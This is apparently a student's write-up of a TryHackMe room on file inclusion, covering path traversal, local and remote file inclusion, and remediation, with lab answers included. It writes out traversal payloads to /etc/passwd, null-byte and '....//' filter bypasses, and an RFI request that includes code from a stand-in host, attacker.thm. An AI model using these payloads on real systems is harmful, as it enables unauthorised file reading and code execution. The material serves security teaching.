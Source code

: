 # What is File inclusion?

<h3>What this room teach:</h3>

- File Inclusion Vulnerabilities: Learn about Local File Inclusion (LFI) and Remote File Inclusion (RFI).
- Understand Directory Traversal: Discover how directory traversal can be exploited in these vulnerabilities.
- Risk Assessment: Gain insights into the risks associated with these vulnerabilities if they are found in a system.
- Remediation: Learn about the necessary steps to mitigate and remediate file inclusion vulnerabilities.
- Practical Examples: Explore real-world examples of LFI, RFI, and directory traversal.
- Hands-On Challenges: Engage in hands-on challenges to apply your knowledge and enhance your skills in exploiting and securing against file inclusion vulnerabilities.

<h2></h2>

- Web applications may request access to files on a system via parameters.
- Parameters are query parameter strings in the URL.
- They can be used to retrieve data or perform actions based on user input.
- Parameters are used with Google searching, where GET requests pass user input into the search engine. https://www.google.com/search?q=TryHackMe.

<p align="center">
<br/>
<img src="https://i.imgur.com/dXlOFFY.png" height="90%" width="90%" alt=""/>
<br />

- User requests file access from a web server via an HTTP request.
- The request includes a specific file to display, such as "userCV.pdf."
- The format of the request is typically like "http://webapp.thm/get.php?file=userCV.pdf."
- "file" is a parameter in the request, and "userCV.pdf" is the desired file to access.
- This scenario illustrates a common method for requesting and displaying files in a web application.

<p align="center">
<br/>
<img src="https://i.imgur.com/HI5pnpw.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

<h3>Why do File inclusion vulnerabilities happen?﻿</h3>

- File inclusion vulnerabilities are widespread in poorly written web applications.
- These vulnerabilities commonly affect programming languages like PHP.
- The main problem lies in the lack of proper input validation.
- User inputs are not sanitized or validated, allowing users to control them.
- Lack of validation enables users to pass arbitrary input to functions, leading to vulnerabilities.


<h3>What is the risk of File inclusion?</h3>

- File inclusion vulnerabilities can be exploited by attackers to access sensitive data like code and credentials.
- Attackers can use file inclusion in conjunction with other methods to achieve `Remote Command Execution` (RCE).
- It's crucial to identify and mitigate file inclusion vulnerabilities to protect web applications and operating systems.


<h2></h2>

# Path Traversal

- Path Traversal also known as Directory Traversal, is a web security vulnerability.
- It enables attackers to access server resources like local files.
- Attackers manipulate the web app's URL to locate and access files outside its root directory.
- Path traversal vulnerabilities stem from user input being used in functions like file_get_contents in PHP.
- The vulnerability is usually caused by inadequate input validation or filtering, not the function itself.
- In PHP, file_get_contents is used to read file content.

<p align="center">
<br/>
<img src="https://i.imgur.com/ZkcxsCL.png" height="90%" width="90%" alt=""/>
<br />
The following graph shows how a web application stores files in /var/www/app. The happy path would be the user requesting the contents of userCV.pdf from a defined path /var/www/app/CVs.

<h2></h2>

- URL parameters can be tested by adding payloads to analyze web application behavior.
- Path traversal attacks, also called dot-dot-slash attacks, exploit directory traversal using "../" to move up directories.
- Attackers can find entry points like "get.php?file=" and attempt to access sensitive files, e.g., "../../../../etc/passwd."
- Web application security should address and mitigate path traversal vulnerabilities to prevent unauthorized access to sensitive files.

<p align="center">
<br/>
<img src="https://i.imgur.com/sIAenYp.png" height="90%" width="90%" alt=""/>
<br />

- Lack of input validation can lead to serious security vulnerabilities.
- Web applications should always access files from trusted locations, such as /var/www/app/CVs.
- Directory traversal attacks can exploit unchecked input and potentially access sensitive system files like /etc/passwd.
- Proper input validation and access controls are essential to prevent such security risks.

<p align="center">
<br/>
<img src="https://i.imgur.com/pXzEHDS.png" height="90%" width="90%" alt=""/>
<br />
As a result, the web application sends back the file's content to the user.

<h2></h2>

<h3>Windows Server</h3>

- Attackers must tailor their web application exploits to the target server's operating system.
- When targeting a Windows server, the attacker should provide Windows file paths.
- Examples of potential Windows file paths for an attacker include "../../../../boot.ini" and "../../../../windows/win.ini".
- These paths can be used in malicious requests to access specific files on the target server.

<h2></h2>

<h3>Linux</h3>

The same concept applies here as with Linux operating systems, where we climb up directories until it reaches the root directory, which is usually c:\.

Some common OS files you could use when testing:

<p align="center">
<br/>
<img src="https://i.imgur.com/SafUKGG.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

<h3>What function causes path traversal vulnerabilities in PHP?</h3>

Answer: `file_get_contents`


<h2></h2>

# Local File Inclusion - LFI

- LFI attacks often result from a lack of developer security awareness.
- PHP functions like `include`, `require`, `include_once`, and `require_once` can make web applications vulnerable to LFI attacks.
- LFI vulnerabilities can also occur in languages like ASP, JSP, and Node.js.
- LFI exploits are based on path traversal concepts.

<h2></h2>

<h3>LFI Scenarios</h3>

1. Suppose the web application provides two languages, and the user can select between the EN and AR

- PHP code utilizes a GET request with a "lang" URL parameter to determine which page to load.
- You can make HTTP requests like this: http://webapp.thm/index.php?lang=EN.php (for English) or http://webapp.thm/index.php?lang=AR.php (for Arabic).
- The English and Arabic pages (EN.php and AR.php) should be in the same directory as the PHP script.

<p align="center">
<br/>
<img src="https://i.imgur.com/tMjCDYm.png" height="90%" width="90%" alt=""/>
<br />

- Without proper input validation, it's theoretically possible to access and display any readable file on the server.
- The example URL provided, http://webapp.thm/get.php?file=/etc/passwd, could be used to attempt reading the /etc/passwd file on a Linux server.
- The /etc/passwd file contains sensitive information about Linux users, making it a potential security risk when accessed without authorization.
- It underscores the importance of implementing robust input validation and security measures in web applications to prevent unauthorized access to sensitive files. 

In this case, it works because there isn't a directory specified in the include function and no input validation.

<p align="center">
<br/>
<img src="https://i.imgur.com/fcBvq7W.png" height="90%" width="90%" alt=""/>
<br />

2. Next, In the following code, the developer decided to specify the directory inside the function.

- The code uses the "include" function to include PHP pages from the "languages" directory based on the "lang" parameter.
- Lack of input validation in the code makes it vulnerable to URL manipulation.
- An attacker can potentially replace the "lang" parameter with sensitive files like "/etc/passwd" due to this vulnerability.

<p align="center">
<br/>
<img src="https://i.imgur.com/f44M3iC.png" height="90%" width="90%" alt=""/>
<br />

- Payload resembles path traversal.
- Utilizes the 'include' function to include called files in the current page.
- Exploit example: http://webapp.thm/index.php?lang=../../../../etc/passwd.

<h2></h2>

<h3>Question 1: Give Lab #1 a try to read /etc/passwd. What would the request URI be</h3>

Answer:`/lab1.php?file=/etc/passwd`

<h3>Question 2: In Lab #2, what is the directory specified in the include function?</h3>

<p align="center">
<br/>
<img src="https://i.imgur.com/YSfjMgO.png" height="90%" width="90%" alt=""/>
<br />

Answer: `Includes`


<h2></h2>

# Local File Inclusion - LFI #2

A couple of techniques to bypass the filter within the include function.

1.  In the first two cases, we checked the code for the web app, and then we knew how to exploit it. However, in this case, we are performing black box testing, in which we don't have the source code. In this case, errors are significant in understanding how the data is passed and processed into the web app.

- Injecting a NULL BYTE at the end of the payload helps the include function disregard characters after it, allowing you to execute code like include("languages/../../../../../etc/passwd%00").".php");, which is equivalent to include("languages/../../../../../etc/passwd").

- Insert into the browser address bar.

NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.

Question 1: Give Lab #3 a try to read /etc/passwd. What is the request look like?

<p align="center">
<br/>
<img src="https://i.imgur.com/PnaPhRJ.png" height="90%" width="90%" alt=""/>
<br />

Answer: `/lab3.php?file=../../../../etc/passwd%00` 

<h2></h2>

2. In this section, the developer filtered keywords to protect sensitive data in the /etc/passwd file. Two possible bypass methods exist: utilizing NullByte %00 or the current directory trick ("/..") after the filtered keyword. These can be used to exploit the system, for example, by accessing
- `http://webapp.thm/index.php?lang=/etc/passwd/.`
- `http://webapp.thm/index.php?lang=/etc/passwd%00.`

<h2></h2>

- Using "cd .." in a file system moves you up one directory level.
- "cd ." keeps you in the current directory, making no change.
- In a file path like "/etc/passwd/..", ".." moves one level up to the parent directory.
- In a file path like "/etc/passwd/.", "." refers to the current directory, so it remains unchanged.
- Understanding the use of "." and ".." is essential for navigating and referencing directories in a file system.

<h2></h2>

Question 2: Which function is causing the directory traversal in Lab #4?

- If we put in `/etc/passwd/.`. We would get into the passwd file content.

<p align="center">
<br/>
<img src="https://i.imgur.com/m24AjUN.png" height="90%" width="90%" alt=""/>
<br />

- To get what function is causing the directory traversal in Lab 4, we can just put in random things on the bar like "THM".
  - It will show that "file_get_contents" is the function at the warning.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/qb0Y5NK.png" height="90%" width="90%" alt=""/>
<br />

Answer: `file_get_contents`

<h2></h2>

3.  the developer starts to use input validation by filtering some keywords. Let's test out and check the error message!

`http://webapp.thm/index.php?lang=../../../../etc/passwd`

We got the following error!

Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15

- The web application replaces "../" with an empty string, making it difficult to perform directory traversal attacks.
- To bypass this protection, you can use a payload like "....//....//....//....//....//etc/passwd."
- This works because the PHP filter replaces only the first occurrence of "../" and doesn't perform a second pass, allowing the payload to succeed in directory traversal.

<p align="center">
<br/>
<img src="https://i.imgur.com/FA4ghgZ.png" height="90%" width="90%" alt=""/>
<br />

- If we put in `../../../../etc/passwd`. It will become `include(includes/etc/passwd)`.
- If we put in `....//..../..../.../etc/passwd`. It will become `nclude(includes/../../.././etc/passwd)`.

<p align="center">
<br/>
<img src="https://i.imgur.com/3X0t7IW.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

4. Discuss the case where the developer forces the include to read from a defined directory!

- When a web application requires directory input, such as in the URL `http://webapp.thm/index.php?lang=languages/EN.php`, you can manipulate the input for potential exploitation.
- To exploit this, include the directory in your payload by modifying the parameter, e.g., `?lang=languages/../../../../../etc/passwd`.
- Using relative directory traversal techniques, like "../" sequences, can help you access sensitive files or directories on the server.

It's crucial to be cautious and ethical when testing for vulnerabilities in web applications, as unauthorized access or manipulation can be illegal and unethical.

<h2></h2>

Question 3: Try out Lab #6 and check what is the directory that has to be in the input field?

- When we put in random input in the File Name bar like "THM".
  - It said Access Denied! Allowed files at "THM-profile" folder only!
 
<p align="center">
<br/>
<img src="https://i.imgur.com/mSnKgQg.png" height="90%" width="90%" alt=""/>
<br />

Answer: `THM-profile`

<h2></h2>

Question 4: Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?

- When we put in `THM-profile/../../../../etc/os-release`
  - We can get the Version ID.
 
<p align="center">
<br/>
<img src="https://i.imgur.com/erzuZfz.png" height="90%" width="90%" alt=""/>
<br />

Answer: `12.04`


<h2></h2>

# Remote File Inclusion - RFI

- Remote File Inclusion (RFI) involves including remote files in a vulnerable application by exploiting improper input sanitization.
- RFI, like LFI, relies on a lack of input validation and requires the `allow_url_fopen` option to be enabled.
- RFI poses a higher risk than LFI because it can lead to Remote Command Execution (RCE) on the server.
- Consequences of a successful RFI attack include:
  - Sensitive Information Disclosure
  - Cross-site Scripting (XSS)
  - Denial of Service (DoS)
 
<h2></h2>

- RFI attack requires external server communication with the application server.
- Attacker hosts malicious files on their server.
- Malicious file is injected into the include function using HTTP requests.
- Content of the malicious file executes on the vulnerable application server.

<p align="center">
<br/>
<img src="https://i.imgur.com/FDzQm6L.png" height="90%" width="90%" alt=""/>
<br />

<h2></h2>

<h3>RFI Steps</h3>

- Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt`
- `cmd.txt` contains a printing message `Hello THM`.
  - `<?PHP echo "Hello THM"; ?>`
 
- First, the attacker injects the malicious URL.
  - `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`
  - If there is no input validation, then the malicious URL passes into the include function.
- Next, the web app server will send a `GET` request to the malicious server to fetch the file.
- As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
- In our case, the current page somewhere has to show the Hello THM message.


<h2></h2>

# Remediation

As a developer, it's crucial to understand web app vulnerabilities, how to detect them, and ways to prevent them. For file inclusion vulnerabilities, common prevention tips include:

- Keep system and services updated with the latest versions.
- Disable PHP errors to prevent information leakage.
- Consider using a Web Application Firewall (WAF) for enhanced security.
- Disable unnecessary PHP features like allow_url_fopen and allow_url_include.
- Carefully control protocols and PHP wrappers in your web application.
- Always implement thorough input validation to prevent file inclusion vulnerabilities.
- Use whitelisting for file names and locations and consider blacklisting where necessary.
